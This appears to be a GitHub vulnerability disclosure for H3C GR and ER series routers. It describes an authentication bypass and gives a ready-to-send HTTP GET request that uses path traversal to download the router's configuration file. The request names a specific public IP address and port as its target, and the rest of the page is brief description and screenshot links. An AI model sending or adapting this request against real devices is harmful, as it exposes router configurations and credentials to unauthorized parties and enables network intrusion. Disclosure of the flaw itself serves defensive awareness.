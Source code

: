 # H3C GR series router system management has unauthorized access vulnerability

**Product**: GR series router

**version**: all

**rating**: high-risk

**website**: http://www.h3c.com/

**Hazards**: Attackers can exploit this vulnerability to obtain sensitive information from routers by constructing special request packets to bypass identity verification.

**principle**: The router did not authenticate directory access and related files

**exp**:

```http
GET /userLogin.asp/../actionpolicy_status/../GR1100-P.cfg HTTP/1.1
Host: 123.178.139.174:8989
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

Sphere of influence：H3C Router Management ER Partial series

The address of the vulnerability：





 

ER Screenshots of the rest of the series：

 

ER5200G2：![image](https://github.com/CJCniubi666/H3C-ER/assets/140289246/4c381e01-2c76-46b7-85b4-678bc960c92f)

![image](https://github.com/CJCniubi666/H3C-ER/assets/140289246/046206b9-7728-4715-aafb-a867f9ac390d)

![image](https://github.com/CJCniubi666/H3C-ER/assets/140289246/c29ea543-8de9-479f-95cd-21be85e6625e)


 

![img](file:///C:/Users/Lenovo/AppData/Local/Temp/msohtmlclip1/01/clip_image014.png)

 

